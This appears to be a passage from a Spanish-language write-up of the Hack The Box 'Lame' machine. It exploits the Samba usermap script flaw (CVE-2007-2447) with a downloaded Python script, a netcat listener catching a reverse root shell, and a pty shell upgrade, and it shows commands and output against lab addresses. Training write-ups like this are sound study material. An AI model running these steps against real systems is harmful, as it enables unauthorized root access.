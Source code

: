 Se busca información sobre `samba usermap script` y encontramos el siguiente [artículo](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/) que nos descibe la **CVE** (Common Vulnerabilities and Exposures) correspondiente. 

En este punto se procede a descargar un script escrito en **Python** para realizar la explotación [enlace](https://github.com/amriunix/CVE-2007-2447) 


## Explotación

Antes de ejecutar el script previamente descargado, se procede a crear una sesión con **netcat** que es una herramienta de red nos permite ponernos en modo escucha en un puerto seleccionado tanto en TCP como UDP. El comando a ejecutar es el siguiente:
`nc -lvp 4444`

- `-l:` activa el modo escucha
- `-v:` informa el estado de la sesión
- `-p:` permite especificar el puerto local que se va a utilizar

Ahora se procede a ejecutar el exploit descargado anteriormente usando el siguiente comando:
`python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>`

- `<RHOST>:` la dirección IP de la máquina Lame (10.10.10.3)
- `<RPORT>:` el puerto de la máquina Lame (TCP 139)
- `<LHOST>:` la dirección IP de la máquina local
- `<LPORT>:` el puerto que se haya establecido en netcat (TCP 4444)

```console
root@kali:/home/kali/Documents/HTB/Machines/Lame/exploits/CVE-2007-2447# python usermap_script.py 10.10.10.3 139 10.10.14.11 4444
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

En este instante ya se está dentro de la máquina como *root*, lo que queda por hacer es ir a los directorios donde se encuentran las flags del *usuario* y del *root*.

```console
root@kali:/home/kali# rlwarp -nlvp 4444
bash: rlwarp: command not found
root@kali:/home/kali# rlwrap -nlvp 4444
rlwrap: error: Cannot execute 4444: No such file or directory
root@kali:/home/kali# rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.3] 51795

whoami
root
```

El siguiente comando permite tener una shell interactiva:
```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

```console
sh-3.2# ls
ls
bin    dev   initrd      lost+found  nohup.out  root  sys  var
boot   etc   initrd.img  media       opt        sbin  tmp  vmlinuz
cdrom  home  lib         mnt         proc       srv   usr
```
